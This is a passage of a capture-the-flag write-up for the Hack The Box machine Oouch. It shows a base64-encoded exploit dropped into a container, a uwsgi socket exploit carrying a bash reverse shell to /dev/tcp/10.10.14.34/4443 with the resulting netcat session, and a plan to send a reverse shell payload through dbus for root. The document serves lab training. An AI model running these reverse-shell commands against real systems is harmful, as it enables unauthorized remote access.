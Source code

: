 This container does not have netcat, wget or curl installed. You could use ftp or as I did, encode the exploit as base64 in your host and decode inside the box.

```text
qtc@aeb4525789d8:/tmp$ echo "IyEvdXNyL2Jpbi9weXRob24KIyBjb2Rpbmc6IHV0Zi04CiMjIyMjIyMjIyMjIyMjIyMjIyMjIyMK X18gPT0gJ19fbWFpbl9fJzoKICAgIG1haW4oKQo=" | base64 -d > exploit.py
```

```text
Open a netcat listener in your host or in oouch box, and execute the exploit.

```sh
qtc@aeb4525789d8:/tmp$ python exploit.py -m unix -u uwsgi.socket -c "bash -c 'bash -i >& /dev/tcp/10.10.14.34/4443 0>&1'"
[*]Sending payload.
```

This will give us a shell as www-data on the container.

```bash
$ rlwrap nc -nvlp 4443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 10.10.10.177.
Ncat: Connection from 10.10.10.177:51688.
bash: cannot set terminal process group (4895): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
www-data@aeb4525789d8:/code$
```

## Root

During previous enumeration on /code and some code review, we saw what `.note.txt` said about dbus.

### Abusing DBUS

This is a excerpt of the vulnerable implementation found at `/code/oouch/`.

```python
www-data@aeb4525789d8:/code$ cat oouch/routes.py | grep bus
cat oouch/routes.py | grep bus
import dbus
    The contact page is required to abuse the Oauth vulnerabilities. This endpoint allows the user to send messages using a textfield.
            bus = dbus.SystemBus()
            block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
            block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
            bus.close()
```

Found a similar exploit for a different application abusing dbus and got the proper syntax to exploit ours app. [https://www.exploit-db.com/exploits/46186](https://www.exploit-db.com/exploits/46186)

At this point, open another netcat listener and send a message to dbus with a reverse shell payload pointing to your listener.
